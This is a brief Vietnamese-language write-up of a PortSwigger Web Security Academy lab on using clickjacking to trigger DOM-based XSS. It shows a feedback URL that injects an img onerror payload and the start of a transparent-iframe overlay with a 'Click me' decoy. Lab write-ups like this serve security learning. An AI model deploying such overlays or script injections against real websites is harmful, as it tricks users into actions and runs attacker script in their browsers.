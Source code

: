 ![alt text](image-4.png)

---

# Combining clickjacking with a DOM XSS attack

## 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS
https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

Context: Ta có thể XSS vào `https://0ac500860442b0d78050031c006f00fe.web-security-academy.net/feedback` và dùng URL để tự động điền đâu vào cho form:\
`/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult`

Từ đây ta xây dựng payload: 
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
```